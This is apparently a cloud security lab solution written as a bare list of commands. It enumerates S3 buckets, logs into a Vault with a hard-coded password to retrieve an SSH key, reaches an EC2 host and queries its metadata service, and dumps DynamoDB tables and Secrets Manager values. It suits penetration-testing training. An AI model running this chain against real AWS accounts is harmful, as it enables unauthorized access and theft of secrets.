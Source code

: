 ```
export AWS_ACCESS_KEY_ID=[low-priv-user]
export AWS_SECRET_ACCESS_KEY=[low-priv-user]
```

`aws s3 ls`

`aws s3 ls s3://[bucket]`

`aws s3 cp s3://[bucket]/nates_web_app_url.txt .`

`cat nates_web_app_url.txt`

`aws lambda list-functions`

`export VAULT_ADDR='http://[web_app_ip]:8200'`

`vault login TorysTotallyTubular456`

`vault kv get secret/id_rsa`

`echo "[id_rsa]" >> id_rsa`

`chmod 400 id_rsa`

`ssh -i id_rsa ec2-user@[web_app_ip]`

`TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")`

`curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/info`

`aws dynamodb list-tables`

`aws dynamodb scan --table-name [table]`

```
export AWS_ACCESS_KEY_ID=[secrets-manager-user]
export AWS_SECRET_ACCESS_KEY=[secrets-manager-user]
```

`aws secretsmanager list-secrets`

`aws secretsmanager get-secret-value --secret-id [secret]`
